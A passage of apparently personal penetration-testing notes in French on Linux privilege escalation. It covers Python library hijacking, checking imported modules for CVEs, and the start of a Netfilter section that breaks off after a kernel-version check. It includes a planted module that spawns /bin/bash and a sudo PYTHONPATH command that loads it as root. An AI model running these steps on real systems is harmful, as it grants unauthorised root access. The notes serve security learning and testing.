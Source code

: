 2. Identifier les modules importés par le script

```
cat <script.py> | grep import
```

3. Créer module malveillant dans /tmp
module.py
```python
#!/usr/bin/env python3

import os

def <fonction>():
    os.system('/bin/bash')
```

4. Definir /tmp comme pythonpath et executer le script python.

```shell
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```


---

# Python Module CVEs


1. Identifier les modules importés par le script

```
cat <script.py> | grep import
```

2. chercher des cves sur les modules importés

```bash
pip3 list | grep <module>
```


---

# Netfilter

> [!TIP]
> Kernel module qui permet le filtrage de paquet, transllation d'adresses etc...

3 fonctions principales:
- Packet defragmentation
- Connection tracking
- Network address translation (NAT)

 1.  Identifier la version du kernel
 
```
uname -r
```
